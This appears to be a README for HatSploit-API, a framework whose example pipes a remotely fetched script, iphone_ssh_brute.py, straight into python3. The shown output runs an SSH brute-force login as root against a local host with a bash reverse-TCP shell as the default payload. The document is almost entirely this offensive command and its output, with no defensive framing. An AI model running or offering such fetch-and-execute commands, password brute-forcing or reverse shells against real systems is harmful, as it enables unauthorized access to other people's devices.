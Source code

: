 # HatSploit-API

HatSploit API examples.

$ curl https://raw.githubusercontent.com/enty8080/HatSploit-API/main/iphone_ssh_brute.py | python3

```shell
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   774  100   774    0     0   1552      0 --:--:-- --:--:-- --:--:--  1551
[*] Using default payload unix/generic/bash_reverse_tcp...
[i] HOST ==> 192.168.1.68
[i] PAYLOAD ==> unix/generic/bash_reverse_tcp
 
[*] Exploiting 192.168.1.68...
[*] Attempt to log in as root:dottie...
[!] Exploit module interrupted.
```
